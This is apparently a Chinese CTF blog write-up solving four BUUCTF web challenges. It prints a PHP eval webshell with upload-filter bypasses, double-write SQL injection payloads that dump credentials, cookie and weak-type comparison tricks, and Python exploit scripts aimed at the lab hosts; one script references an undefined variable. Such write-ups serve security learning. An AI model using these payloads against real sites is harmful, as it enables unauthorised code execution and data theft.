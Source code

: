 ```yaml
---
title: web刷题记录
date: 2023-04-08 17:19:47
tags:
  - CTF
  - Web
categories: Web
keywords: CTF
description: 本文记录了作者在刷CTF的Web方向题目中面临的问题以及解决方案
top_img: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
cover: https://pic.imgdb.cn/item/647dcd821ddac507ccf5ba20.jpg
# password: xdxdsqyc15511551
# message: 暂未完成，仍在施工
---
```



## [极客大挑战 2019] Upload 解题思路

1. `MIME` 绕过；修改 `content-type` 类型

2. 文件后缀检测；修改后缀名 `.phtml`

3. `<?` 检测绕过： js + php 模式；

``` html
<script language='php'>@eval($_POST['peony']);</script>
```

4. 文件头检测：添加 `GIF89a`

``` html
GIF89a <script language='php'>@eval($_POST['peony']);</script>
```

5. 确定文件上传位置：`/upload/x.phtml`

成功。

## [极客大挑战 2019] BuyFlag 解题思路

1. 发现注释中的提示：

``` html
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

![提示](https://pic.imgdb.cn/item/647c13a7f024cca173274a7a.png)

2. 使用 POST 方法提交参数 `money=100000000` 和 `password=404%00`
3. 根据提示修改 `cookie` ，将 `Cookie: user=0` 改为 `Cookie: user=1`，提交后发现长度被限制：

![反馈](https://pic.imgdb.cn/item/647c13a8f024cca173274b77.png)
4. 绕过方式：改为科学计数法：`money=1e8`。

``` POST
POST /pay.php HTTP/1.1
Host: d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7
Cookie: user=1
Connection: close

money=1e8&password=404%20
```

下面是 EXP ：

``` python
import httpx
import re

HOST = "http://d8194abc-64ad-48a7-8358-3df0649572fd.node4.buuoj.cn:81"
URL = f'{HOST}/pay.php'
DATA = {"money": "1e9", "password": "404 "}
COOKIES = {"user": "1"}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}


res = httpx.post(URL, data=DATA, cookies=COOKIES, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text) 
if match: 
    print(match.group()) 
else: 
    print("No flag found.")
```

## [极客大挑战 2019] BabySQL 解题思路

1. 将`select`、`union`、`or`、`and`、`infomation`、`where`等关键字替换为空，双写绕过即可。

``` sql
%27 || sleep(1) --+
select 1,2,3 --+
select database() --+
select group_concat(table_name) from information_schema.tables where table_schema=database() --+
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name= b4bsql --+
```

下面是 exp ：

``` python
import httpx
import re

HOST = "http://a37633c3-5c3b-4677-82e1-2270c6e28c7d.node4.buuoj.cn:81"
EVILCODE = '%27%20uunionnion%20sselectelect%201,2,group_concat(passwoorrd)ffromrom%20b4bsql%23'
URL = f'{HOST}/check.php'

params = {'username': 'admin', 'password': EVILCODE}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```

## [ACTF2020 新生赛] BackupFile 解题思路

1. 扫文件目录，工具很多，找到 `index.php.bak` 即可。
2. 根据 `index.php.bak` 中的注释提示:

``` php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }}
else {
    echo "Try to find out source file!";
}
?>
```

代码逻辑如下：

- 首先，它包含了一个叫做 `flag.php` 的文件，这个文件可能定义了一个变量 `$flag` ，用来存储一些敏感信息。
- 然后，它检查是否有一个名为 `key` 的 GET 参数传递给它。如果没有，它就输出"Try to find out source file!"。
- 如果有，它就把这个参数赋值给一个变量 `$key` ，并且使用 `is_numeric()` 函数检查这个变量是否是一个数字或者一个数字字符串。如果不是，它就退出并输出"Just num!"。
- 如果是，它就使用 `intval()` 函数把这个变量转换成一个整数，并且和一个字符串 `$str` 进行**弱类型比较**。如果相等，它就输出 `$flag` 的值。

因此，只需要请求 `http://url/?key=123` 即可获取 flag 。

{% hideToggle 什么是弱类型比较,orange, %}
根据搜索结果，PHP是一种弱类型的语言，这意味着它在比较变量时会进行隐式的类型转换¹²。PHP中有两种比较运算符：`==` 和 `===`。它们的区别是 `==` 会在比较之前将变量转换成相同的类型，而 `===` 会同时比较变量的类型和值。因此，使用 `==` 进行比较时可能会出现一些意想不到的结果，比如：

```php
<?php
$a = "0e123"; // 字符串
$b = 0; // 整数
if ($a == $b) {
    echo "true"; // 这里会输出true，因为字符串"0e123"被转换成了浮点数0.0
} else {
    echo "false";
}
?>
```

要避免这种弱类型比较的问题，可以使用 `===` 进行严格比较，或者使用一些函数来检查变量的类型，比如 `is_numeric()` , `is_int()` , `is_string()`等。
{% endhideToggle %}

EXP 如下：

``` python
import httpx
import re

URL = "http://eac04754-4cdd-4807-b34a-bfa86186533e.node4.buuoj.cn:81"

params = {'key': '123'}
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
           "Referer": f"{HOST}/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,zh;q=0.8,zh-CN;q=0.7"}

res = httpx.get(URL, params=params, headers=headers, timeout=5)
assert res.status_code == 200
# print(res.text+"\n")

pattern = r"flag\{.*?\}"
match = re.search(pattern, res.text)
if match:
    print(match.group())
else:
    print("No flag found.")
```
